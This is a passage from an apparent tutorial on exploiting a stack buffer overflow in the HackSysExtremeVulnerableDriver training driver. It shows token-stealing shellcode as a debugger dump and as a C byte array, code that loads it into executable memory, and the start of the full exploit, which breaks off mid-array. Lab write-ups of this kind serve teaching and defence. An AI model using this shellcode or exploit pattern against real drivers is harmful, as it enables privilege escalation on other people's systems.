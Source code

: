 shellcode we cut out all the noise from the compiler:\
<br>
```
0:000> db 411e87 L60
00411e87  60 64 a1 20 00 00 00 8b-40 04 8b 80 50 01 00 00  `d. ....@...P...
00411e97  8b c8 8b b0 40 01 00 00-8d 80 b8 00 00 00 8b 40  ....@..........@
00411ea7  04 8b 58 fc 83 fb 04 75-f5 2d b8 00 00 00 05 f8  ..X....u.-......
00411eb7  00 00 00 8b 00 24 f8 8b-f8 8b c1 8d 80 b8 00 00  .....$..........
00411ec7  00 8b 40 04 8b 58 fc 3b-de 75 f6 2d b8 00 00 00  ..@..X.;.u.-....
00411ed7  05 f8 00 00 00 89 38 61-8b c8 8b c1 5d c2 08 00  ......8a....]...
```
<br>
This needs to be cleaned up and put into a c style buffer, do that how you 
like.\
<br>
```c
const unsigned char StealTokenShellcode[] = {
    0x60, 0x64, 0xa1, 0x20, 0x00, 0x00, 0x00, 0x8b, 0x40, 0x04, 0x8b,
    0x80, 0x50, 0x01, 0x00, 0x00, 0x8b, 0xc8, 0x8b, 0xb0, 0x40, 0x01, 
    0x00, 0x00, 0x8d, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x8b, 0x40, 0x04, 
    0x8b, 0x58, 0xfc, 0x83, 0xfb, 0x04, 0x75, 0xf5, 0x2d, 0xb8, 0x00, 
    0x00, 0x00, 0x05, 0xf8, 0x00, 0x00, 0x00, 0x8b, 0x00, 0x24, 0xf8, 
    0x8b, 0xf8, 0x8b, 0xc1, 0x8d, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x8b, 
    0x40, 0x04, 0x8b, 0x58, 0xfc, 0x3b, 0xde, 0x75, 0xf6, 0x2d, 0xb8, 
    0x00, 0x00, 0x00, 0x05, 0xf8, 0x00, 0x00, 0x00, 0x89, 0x38, 0x61, 
    0x8b, 0xc8, 0x8b, 0xc1, 0x5d, 0xc2, 0x08, 0x00
};
```
<br>
Now we can update the size of the shellcode buffer and copy in the shellcode to 
be run.\
<br>
```c
LPVOID Shellcode = VirtualAlloc(
    NULL,
    sizeof(StealTokenShellcode),
    MEM_COMMIT | MEM_RESERVE,
    PAGE_EXECUTE_READWRITE
);
memcpy(Shellcode, StealTokenShellcode, sizeof(StealTokenShellcode));
```
<br>
The final exploit code should look something like the following ( I have 
removed error checking in the previous code snippets in this document to keep 
them as minimal as possible and cut out all the noise. However the following 
exploit code has all my error checking code and debug prints ):  
<br>
```c
#include <Windows.h>
#include <stdio.h>

/* IOCTL Definitions */
#define CTL_CODE( DeviceType, Function, Method, Access ) \
    ( ((DeviceType) << 16) | ((Access) << 14) | ((Function) << 2) | (Method) )
#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_BUFFER_OVERFLOW_STACK IOCTL(0x800)

const char* lpFileName = "\\\\.\\HackSysExtremeVulnerableDriver";

const unsigned char StealTokenShellcode[] = {
    0x60, 0x64, 0xa1, 0x20, 0x00, 0x00, 0x00, 0x8b, 0x40, 0x04, 0x8b,
    0x80, 0x50, 0x01, 0x00, 0x00, 0x8b, 0xc8, 0x8b, 0xb0, 0x40, 0x01, 
    0x00, 0x00, 0x8d, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x8b, 0x40, 0x04, 
    0x8b, 0x58, 0xfc, 0x83, 0xfb, 0x04, 0x75, 0xf5, 0x2d, 0xb8, 0x00, 
    0x00, 0x00, 0x05, 0xf8, 0x00, 0x00, 0x00, 0x8b, 0x00, 0x24, 0xf8, 
```